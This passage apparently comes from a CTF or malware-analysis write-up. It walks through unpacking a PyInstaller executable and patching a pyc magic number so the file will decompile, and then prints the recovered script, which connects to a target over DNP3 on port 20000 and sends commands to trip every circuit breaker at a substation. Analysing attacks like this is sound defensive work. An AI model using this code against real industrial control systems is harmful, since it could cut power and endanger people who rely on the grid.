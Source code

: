 ```bash
[!] Please run this script in Python36 to prevent extraction errors during unmarshalling
[!] Skipping pyz extraction
[+] Successfully extracted pyinstaller archive: fate.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

Interesting stuff here, let's look at `trip_breakers.pyc`:
```bash
$ file trip_breakers.pyc
trip_breakers.pyc: python 3.9 byte-compiled
```

Oh. This is awkward. We just saw a Python 3.6 DLL file used in the executable, how can this script be compiled with Python 3.9? We tried to decompile it anyway but it failed. 

After a while we understood that 3.9 is the version that I used to launch `pyinstxtractor`, we also noticed its warning afterwards. At this point, either I install Python 3.6 and redo this process or I get to know a bit more about these compiled Python scripts. We obviously went down the second road. We asked ourselves: how can one binary (*e.g.* `file`) know that it is a 3.9 byte-compiled file: is there any magic number or signature? We stumbled upon this [awesome script](https://github.com/google/pytype/blob/master/pytype/pyc/magic.py) from Google's GitHub, which lists Python version and their associated magic number in the `pyc` head, which are in the two first bytes of the compiled script. Indeed, in hex digits, we had `0D 61` which is `3425` in decimal, which matches the latest 3.9 Python version. We replaced it with `20 OD` or `3360` in decimal or the first 3.6 Python version magic number. 

A new decompiler try was a success, end of the `pyc` steganography. Please have a look at the retrieved script before entering the ending chapter:

```python
import struct, socket, time, sys
from crccheck.crc import Crc16Dnp
OPT_1 = 3
OPT_2 = 4
OPT_3 = 66
OPT_4 = 129

class Substation:

    def __init__(self, ip_address, devices):
        self.target = ip_address
        self.devices = []
        self.src = 50
        self.transport_seq = 0
        self.app_seq = 10
        for device in devices:
            self.add_device(device)

        self.connect()

    def connect(self):
        print('Connecting to {}...'.format(self.target))
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((self.target, 20000))
        print('Connected to {}'.format(self.target))

    def add_device(self, device):
        self.devices.append({'dst':device[0],  'count':device[1]})

    def activate_all_breakers(self, code):
        for device in self.devices:
            dnp3_header = self.get_dnp3_header(device['dst'])
            for x in range(1, device['count'] * 2, 2):
                dnp3_packet = dnp3_header + self.get_dnp3_data(x, OPT_1, code)
                self.socket.send(dnp3_packet)
```